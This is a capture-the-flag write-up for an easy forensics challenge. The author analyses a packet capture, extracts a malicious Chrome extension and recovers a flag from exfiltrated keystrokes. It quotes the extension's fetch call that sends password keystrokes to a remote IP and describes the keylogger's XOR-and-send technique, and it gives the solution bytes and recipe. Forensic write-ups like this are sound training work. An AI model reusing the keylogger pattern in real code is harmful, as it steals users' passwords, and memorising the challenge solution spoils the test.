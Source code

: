 # X-tension 

| Category   | Difficulty |
| -----------|:----------:|
| Forensics  | Easy       |

## Challenge Description
Trying to get good at something while watching youtube isn't the greatest idea...

## Attachment(s)
[chal.pcapng](https://github.com/ImaginaryCTF/ImaginaryCTF-2025-Challenges/blob/main/Forensics/x-tension/dist/chal.pcapng)

***

## Walkthrough
Given that we have a PCAP (packet capture) file, I used [Wireshark](https://www.wireshark.org/) to start analyzing the captured network traffic.

When analyzing PCAP files using Wireshark, it is helpful to look at the **Statistics** menu, which provides high-level statistics of the network traffic (protocols, host addresses, etc.) Documentation on Wireshark statistics can be found [here](https://www.wireshark.org/docs/wsug_html_chunked/ChStatistics.html).

I started looking at the HTTP web requests, found under **Statistics > HTTP > Requests**. This shows a list of all HTTP requests by destination address along with what was requested. 

![HTTP requests](/screenshots/xtension_http_requests)

We have two interesting findings:
* FunnyCatPicsExtension.crx (Google Chrome extension)
* Seemingly encrypted requests to a suspicous IP

<br> **Examining the CRX file:** <br>
 I exported the the CRX file from the PCAP (**File > Export Objects > HTTP** then select the file you want to Save) but the file type couldn't be directly opened in Kali Linux. I used [CRX Extractor](https://crxextractor.com/) to convert the CRX file to a ZIP to dig into the contents.

![CRX to ZIP](/screenshots/xtension_funnycatzip)

 The **contents.js** file is heavily objuscated code with this interesting snippet: `fetch('http://192.9.137.137:42552/?t=` which relates to the other HTTP requests found before.

Admittedly I copy/pasted this code into Google Gemini to understand what it does, and had the following takeaways:
* This file _listens to keystrokes if the event's target element is an input field with the type attribute set to 'password'_
* The captured keystroke is _encrypted using a simple XOR cipher, then URL-encoded before being sent to the remote IP via the query paramter t_

<br> **Pivoting back to Wireshark:** <br>
Knowing that we have passwords being exfilttrated via web requests, I went back to Wireshark to find the relevant packets. Using the display filter **http.request.method=="GET"** lists the GET requests (or keystrokes) in order.

![GET requests](/screenshots/xtension_GETrequests)

<br> **Decrypting the data:** <br>
Now we have the exfiltrated keystrokes in order: 5e 54 43 51 4c 52 4f 43 52 59 44 5e 58 59 44 68 5a 5e 50 5f 43 68 5d 42 44 43 68 44 42 54 5c 4a

I used [CyberChef](https://gchq.github.io/CyberChef/) to decrypt the keystrokes and got the flag using the recipe **From Hex > XOR Brute Force** which resulted in the flag. 

Challenge solved! :sunglasses:
